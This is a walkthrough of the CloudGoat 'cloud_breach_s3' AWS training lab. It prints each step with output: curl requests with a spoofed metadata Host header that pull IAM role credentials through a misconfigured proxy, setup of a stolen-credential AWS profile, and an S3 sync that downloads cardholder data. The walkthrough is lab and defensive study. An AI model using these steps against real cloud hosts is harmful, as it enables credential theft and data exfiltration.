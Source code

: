 


## Walkthrough of the Rhino Labs S3 data breach scenario

<HR>
This walkthrouh includes steps for setup, commands in the cheatsheet which needed slight modification to work.  
After going through the scenario as written, I wanted to see:
  
  * What happens if we prevent access to the metadata servie using iptables firewall?
    https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/test1_with_iptables.md

  * How the scenario would be impacted by implementation of the Instance Metadata Service Version 2 (IMDSV2) 
    announced at re:Invent in December, 2019
    https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/Test1_with-IMDSv2.md
 

<HR>
  
## Reference: 

Cloud Goat S3 breach scenario (release notes)
https://rhinosecuritylabs.com/aws/capital-one-cloud_breach_s3-cloudgoat/

Scenario Details: 
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/README.md

Scenario Cheat Sheet:
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/cheat_sheet.md

NOTE: Additional setup needed: ‘cloudgoat’ IAM user and profile, described in the CloudGoat 2 release notes 
https://rhinosecuritylabs.com/aws/introducing-cloudgoat-2/

![alt text](https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/images/image0.jpg)



<HR>
  
## Steps in scenario cheat-sheet:

1) curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254' 
``` 
% curl -s http://34.234.223.255/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
cg-banking-WAF-Role-cgidatyedvvzzy
% 
```

2) curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

```
%~/Cloud_Goat_Test/Walkthrough# curl -s http://34.234.223.255/latest/meta-data/iam/security-credentials/cg-banking-WAF-Role-cgidatyedvvzzy -H 'Host:169.254.169.254'
{
  "Code" : "Success",
  "LastUpdated" : "2020-01-12T19:06:22Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "XXXXXXXXXXXXXXXXXXXXXX",
  "SecretAccessKey" : "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX",
  "Token" : "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX==",
  "Expiration" : "2020-01-13T01:42:16Z"
```

3) aws configure --profile erratic

```
% aws configure --profile erratic
AWS Access Key ID [****************4R4E]: XXXXXXXXXXXXXXXXXX
AWS Secret Access Key [****************plSQ]: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX          
Default region name [us-east-1]: us-east-1
Default output format [None]: 
%
```

4) aws_session_token = <session-token>

Note: the steps required are slightly different than described in the cheat-sheet for this scenario.

Exporting as an environment variable could work, the variable name would need to be capitalized. “export AWS_SESSION_TOKEN=QoJb3Jp...”  The order for processing IAM credentials is: 1) in your code, 2) environment variables, 3) user profile ~/.aws/credentials  4) Role  

The cheat-sheet for the Cloud Goat server side request forgery scenario “ec2_ssrf” shows how to configure the TOKEN in the user profile:  https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/ec2_ssrf/cheat_sheet_solus.md


![alt text](https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/images/image1.jpg)

<HR>
  
After editing for our current test: 

```
% tail ~/.aws/credentials
...
[erratic]
aws_session_token=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXx/XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX==
aws_access_key_id = XXXXXXXXXXXXXXXXXXXXXXXXXXXX
aws_secret_access_key = XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXxxx
```

<HR>

5) Use new credentials to list S3 buckets?  Success!

```
% aws s3 ls --profile erratic
2020-01-12 14:07:01 cg-cardholder-data-bucket-cgidatyedvvzzy
%
```

<HR>
  
6)  Copy bucket contents

```
% aws s3 sync s3://cg-cardholder-data-bucket-cgidatyedvvzzy ./cardholder-data --profile erratic
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholder_data_primary.csv to cardholder-data/cardholder_data_primary.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholders_corporate.csv to cardholder-data/cardholders_corporate.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/cardholder_data_secondary.csv to cardholder-data/cardholder_data_secondary.csv
download: s3://cg-cardholder-data-bucket-cgidatyedvvzzy/goat.png to cardholder-data/goat.png
```

<HR>
  
7) Reveiw local copy 

```
% ls ./cardholder-data/
cardholder_data_primary.csv  cardholder_data_secondary.csv  cardholders_corporate.csv  goat.png

% ls -ltr
total 456
-rw-r--r-- 1 root root 249500 Jan 12 14:07 goat.png
-rw-r--r-- 1 root root  92165 Jan 12 14:07 cardholders_corporate.csv
-rw-r--r-- 1 root root  59384 Jan 12 14:07 cardholder_data_secondary.csv
-rw-r--r-- 1 root root  58872 Jan 12 14:07 cardholder_data_primary.csv

% firefox ./goat.png
```

![alt text](https://github.com/JohnLockney/CloudGoat_S3_breach_walkthrough/blob/master/images/image2.jpg)







    


